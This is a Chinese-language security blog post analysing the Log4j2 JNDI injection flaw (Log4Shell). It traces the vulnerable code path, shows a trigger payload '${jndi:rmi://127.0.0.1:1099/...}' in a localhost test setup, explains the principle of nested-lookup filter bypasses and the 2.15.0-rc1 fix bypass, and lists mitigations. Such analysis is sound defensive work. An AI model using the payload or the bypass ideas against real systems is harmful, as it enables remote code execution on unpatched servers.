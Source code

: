 ```yaml
---
title: log4j2 JNDI注入漏洞速通~
date: 2021-12-10 17:43:36
tags:
- log4j2
- jndi
- java
---
```


---

2021年12月9日，一场堪比永恒之蓝的灾难席卷了Java，Log4j2爆出了利用难度极低的JNDI注入漏洞，其漏洞利用难度之低令人叹为观止，基本可以比肩S2。

而和S2不一样的是，由于Log4j2 作为日志记录基础第三方库，被大量Java框架及应用使用，只要用到 Log4j2 进行日志输出且日志内容能被攻击者部分可控，即可能会受到漏洞攻击影响。因此，该漏洞也同时影响全球大量通用应用及组件，例如 ：
Apache Struts2
Apache Solr
Apache Druid
Apache Flink
Apache Flume
Apache Dubbo
Apache Kafka
Spring-boot-starter-log4j2
ElasticSearch
Redis
Logstash
…

下面我们来一起看看漏洞原理
<!--more-->

# 漏洞分析

## 搭建环境

这里选用log4j-core 2.14.1版本，简单构造一个环境

```
package top.bigking.log4j2attack.service;


import lombok.extern.slf4j.Slf4j;

@Slf4j
public class HelloService {
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        log.error("${jndi:rmi://127.0.0.1:1099/ruwsfb}");
    }
}

```

spring-boot 需要把原来的log关掉，加入log4j(这是一个普遍用法)

```
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter</artifactId>
    <exclusions><!-- 去掉springboot默认配置 -->
        <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>

<dependency> <!-- 引入log4j2依赖 -->
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-log4j2</artifactId>
</dependency>
```

执行即可触发
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173223.png)

# 代码分析

## 漏洞成因

这里我们正常跟error下去
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173341.png)

首先可以看到这里经过了`isEnabled`的验证，这也是很多朋友info函数无法触发的原因，如果不满足配置，则log不会被记录。

这里一路跟到`MessagePatternConverter`的`format`函数
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173351.png)

可以看到这次漏洞的入口，如果代码中存在`${`则会进入额外处理。继续跟下去到`StrSubstitutor`的`substitute`函数
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173359.png)

这里就是漏洞发生的主要部分了，基本上是递归处理里面的语法内容，还有一些内置的语法

`prefixMatcher`是${
`suffixMatcher`是}

只有搜索到这两部分才会进入语法处理
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173409.png)

括号中间的内容被传到varname

并进行两个内置的语法，其中

```
public static final String DEFAULT_VALUE_DELIMITER_STRING = ":-";
public static final StrMatcher DEFAULT_VALUE_DELIMITER = StrMatcher.stringMatcher(":-");
public static final String ESCAPE_DELIMITER_STRING = ":\\-";
public static final StrMatcher DEFAULT_VALUE_ESCAPE_DELIMITER = StrMatcher.stringMatcher(":\\-");
```

![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173420.png)

如果匹配到这两个语法，则varname会被修改为对应语法的对应部分（重要绕过）

经过处理的变量，会在418行进入`resolveVariable`函数
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173431.png)

而`resolveVariable`这里则直接根据不同的协议进入相应的lookup，其中`jndi.lookup`就会导致漏洞
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173439.png)

如果执行lookup有返回，则会进入427行的递归处理下一层
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173446.png)

而lookup支持的协议也有很多种
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173452.png)

包括`{date, java, marker, ctx, lower, upper, jndi, main, jvmrunargs, sys, env, log4j}`

如果能顺利的从这个流程走下来，就不难发现整个流程的逻辑问题其实有很多。

## 一些简单的绕过

前面我们是按照payload为`${jndi:rmi://127.0.0.1:1099/ruwsfb}`做分析和处理的。

但在代码中，有很多部分都阐述了这里是存在递归处理的，也就是说我们可以如果嵌套`${}`语法的方式来处理这里的返回。

比如说我们选取lower协议做返回，拼接进入代码中
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173459.png)

同样可以执行

包括他内置的特殊语法
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173505.png)

前半部分会被当做varname，后半部分会被返回替换原本的结果进入下一次拼接，如此一来又可以构造新的payload。

甚至官方在其中还加了容错代码，如果遇到不满足条件的字符，还会被直接删除。
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173511.png)

由于一些特殊的规定，这里我就不公布相关的绕过payload，如果看得懂这部分代码的朋友一定可以很轻松的构造。

# 2.15.0 rc1 的修复

其实这个漏洞几天前就被发布了更新补丁，之前也关注到了，只是没想到利用的逻辑如此简单。

在整个漏洞掀起全安全圈的风暴时，越来越多的朋友将目光集中到这里。rc1的修复也迎来了绕过，这里的绕过其实还挺有意思的，我们一起来看看补丁。

修复补丁和测试样例又很有意思
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173517.png)

简单来说，原本的修复逻辑处理处，想办法使他处理报错，那么原来的catch不会做处理，而是直接走进lookup
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173524.png)

:>

# 修复方案

1、目前Apache官方只发布了2.15.0 rc2并打包了2.15.0的release，没法保证不会被二次绕过，而且据说这个版本兼容度不是很高。
https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2

2、现在普遍的修复方案主要集中在配置修改上
在项目的 log4j2.component.properties 配置文件中添加配置：

```
log4j2.formatMsgNoLookups = true
```

要注意的是，这个配置只生效于2.10.0以上。

也可以在java的启动项中添加该配置

```
-Dlog4j2.formatMsgNoLookups=true
```

3、除此之外可能就要依赖各大WAF了

 

# 写在最后

其实这个漏洞在12月6号就更新补丁了，而且在推特传的很广，最开始看到第一反应是不可能有这么严重的问题，肯定是限制重重。结果利用根本就很简单，一下子席卷了整个java届的所有项目。

而作为一个基础组件，这个组件被大多数的java框架/java应用引用，大量的问题一下子被曝光出来。就在下班短短1个小时，payload就已经流传开了，要不是jndi到rce的利用不算简单，估计很多服务一晚上已经沦陷了。

由于厂商还没来得及发布修复后的release，导致这个漏洞初期只能通过waf防御，如果安全运营构建比较差的厂商，估计只能等死，这种感触不经历这样的大洞可能很难感受到吧。（360什么时候涨啊？

